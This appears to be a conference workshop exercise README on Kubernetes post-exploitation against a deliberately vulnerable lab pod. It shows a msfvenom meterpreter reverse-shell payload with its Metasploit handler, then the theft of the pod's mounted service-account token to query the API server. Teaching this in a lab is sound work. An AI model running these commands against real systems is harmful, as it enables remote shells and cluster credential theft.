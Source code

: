 # Exercise 15 (Access Control)

## Preface:
This exercise is not meant to provide you with an extensive "hacking" experience! We all know the majority of pen testing issues come from misconfiguration. Therefore we assume this container is exploitable so we will focus on post exploitation. If you do not wish to do any of the ___metasploit___ steeps, just skip to [This section]() to pick it up at the shell.

### Env Setup
- cd into the ``` KernelCon2020K8s/Exercises/Break/Files/break_e15 ``` folder and deploy the pod we will be working with.

```bash
kubectl apply -f setup.yaml
```
- this should deploy the needed resources including ingress.
- once running you should be able to access the site through the ingress port [https://k8s.kernelcon2020.org/](https://k8s.kernelcon2020.org/)
- login with the credentials ___"admin"___ and ___"admin"___

![Login](Files/images/dvwa_login1.png)

- once



### MSF Setup

- build a meterpreter payload and put it on your desktop
- make it executable
- Make sure msf is setup and installed correctly
- enter the msfconsole

```bash
# prep the env.

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=$(ifconfig eth0 |grep -i "inet " |awk '{print $2}') LPORT=4545 -f elf > ~/Desktop/rshell
chmod 0777 ~/Desktop/rshell
apt update; apt install metasploit-framework
gem install bundler
msfconsole
```

- Good now that you are in the msf console, we should setup a handler and payload
- add our eth0 IP and a port to the options
- set the ExitOnSession to false
- start listening for sessions.

```bash
### form inside msfconsole, start a 
msf> use exploit/multi/handler
msf> set payload linux/x86/meterpreter/reverse_tcp
msf> set lhost YOUR_ETH0_IP_ADDRESS
msf> set lport 4545
msf> set ExitOnSession false
msf> exploit -j
```

- you should see a session start as soon as you run the command
- enter the session, then enter the shell
- spawn a new tty

```bash
### once seeeion is open
sessions 1

### in session
shell

### spawn new tty
/bin/sh -i

```

#### Note by default (unless you change it) k8s will auto mount the default service account for a namespace INTO EVERY POD in that namespace!!!

#### you can get at this info from inside the container via the file system @ ```/run/secrets/kubernetes.io/serviceaccount/token``` and you can get the api-server info via the two environment variables ___$KUBERNETES_SERVICE_HOST___ ___$KUBERNETES_SERVICE_PORT___

```bash
### is curl here ?

curl -k https://$KUBERNETES_SERVICE_HOST/api/v1/namespaces/default/pods/

### nope! but apt is ;-)

apt-get update && apt-get install curl

### now that we have curl we can grab the service account that was automaticly mounted into the container ...
export TOKEN=$(cat /run/secrets/kubernetes.io/serviceaccount/token)

### now that we have a token we can check our permissions

curl -k -H "Authorization: Bearer $TOKEN" https://$KUBERNETES_SERVICE_HOST/api/v1/namespaces/default/pods/




```




## Review:



## Clean up:

 [Return to schedule](../../Docs/SCHEDULE.md)